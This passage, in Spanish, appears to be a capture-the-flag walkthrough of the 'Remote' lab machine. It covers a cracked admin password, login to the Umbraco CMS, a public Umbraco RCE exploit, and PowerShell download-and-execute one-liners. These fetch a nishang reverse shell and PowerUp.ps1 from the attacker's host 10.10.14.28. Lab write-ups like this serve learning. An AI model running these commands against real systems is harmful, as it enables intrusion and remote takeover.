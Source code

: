 Jajaja yo ya había descifrado el hash.

```console
intrusionz3r0@kali:~$ john -show hash
Administrator:baconandcheese

1 password hash cracked, 0 left
```

Llego la hora de probar suerte y probar las credenciales en el panel de login de umbraco.

![](https://lh3.googleusercontent.com/1ljrzgP7g6PHOF3kjzvl-ND3kh_glJbX5Famm8xCdI8DmYGR_1fy-xoyXoPMilvGcmnpPHXxOGz1kDBat1xcOrRu2JN6a1jywWzT2RpwW3Xv6gzqy3V4vuzVivQePmDnCK4_lzdv)

![](https://lh4.googleusercontent.com/ZIsWBFT0R7ByCcdcLzAgP92ibFxPa4Jt3gpqCwB9ntxn48BM6-c6BYuH3tfNrEtGXL585RpmRBLgSKn1BPZDN0ddGTGV5dQZRwy2P4dxgHpsogCgyJdcbGCih2UyW-y1L82en-6G)

# Shell como el usuario defaultapppool.

Ahora que tenemos unas credenciales llego la hora de explotar este gestor de contenido, si recuerdas habíamos hecho uso de la herramienta `searchsploit` para encontrar un exploit para umbraco y  habíamos encontrado uno que necesitaba credenciales.

Pues lamentablemente el exploit que habíamos encontrado me dio problemas a si que me di a la tarea de encontrar otro.

El exploit que utilizaremos es el siguiente: [Umbraco-RCE](https://github.com/noraj/Umbraco-RCE).

Lo ejecuto y obtenemos ejecución remota de comandos.

![](https://lh3.googleusercontent.com/0zRHgrDGPYq_JKyhOvhzfrVhDP7vduto71fHyw8rwDK5UD68FIKWOU0FaHksjxfuo3GpqUHaTHT4X3u56JJ3lNUJ7yzAWsjD7XdnaBvBDm8W8X7vRXtdn5aEIaWLh29H9hK4drcP)

Ahora  que podemos ejecutar comandos hare uso de la reverse shell `Invoke-PowerShellTcp.ps1` del repositorio de 
[nishang](https://github.com/samratashok/nishang).

Monto un servidor con python compartiendo el `Invoke-PowerShellTcp.ps1` y ejecuto el exploit.
```
intrusionz3r0@kali:~$ python exploit.py -u admin@htb.local -p baconandcheese -i http://remote.htb/ -c "powershell" -a "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28/Invoke-PowerShellTcp.ps1')"
```
![](https://lh6.googleusercontent.com/cwzhorWEw6wtKwCGSwenUn6IUsZmCRDQk14BYF1GE3xTZdwfSkJpxlD3UIJA4BPTZBX0j1h_r0ck0pqlo2mVAa_8Iu139M2Nd0NPKZHBsgzftMCjuZXJXTAuY8pw4ZatXWPYAq1l)

> **Nota:** Para que el script en powershell se interprete y se ejecute necesitas agregar al final del script la siguiente linea: **Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PORT]**.

# Shell como el usuario administrador.

Comienzo a enumerar la máquina subiendo un script de enumeración llamado `PowerUp.ps1` del repositorio de [PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Monto un servidor con python compartiendo el `PowerUp.ps1` y lo ejecuto en la máquina.

```console
PS C:\windows\system32\inetsrv> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28/PowerUp.ps1');Invoke-AllChecks
```
